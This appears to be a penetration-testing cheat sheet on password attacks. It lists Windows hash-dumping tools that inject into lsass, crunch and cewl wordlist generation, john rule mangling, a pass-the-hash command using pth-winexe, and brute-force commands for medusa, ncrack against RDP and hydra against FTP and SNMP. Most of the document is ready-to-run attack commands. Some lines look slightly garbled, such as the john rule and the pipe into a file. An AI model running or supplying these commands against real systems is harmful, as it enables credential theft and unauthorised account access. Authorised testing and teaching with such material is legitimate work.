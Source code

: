 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
```
wce64.exe   # for x64
wce.exe     # for x86
```

## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
```
# See man page for examples
root@kali:~# crunch 6 6 0123456789ABCDEF -o crunch1.txt 
root@kali:~# crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha 
# @ - Lower case alpha characters 
# , - Upper case alpha characters 
# % - Numeric characters 
# ^ - Special characters including space 
root@kali:~# crunch 8 8 -t ,@@^^%%% 
```

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt

# john tricks
# add 2 numbers to the end of every password
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
hydra -P password-file.txt -v 10.x.x.x snmp 
```

## LM/NTLM
xp/2k3 and prior use LM

vista/2k8 and newer use NTLM
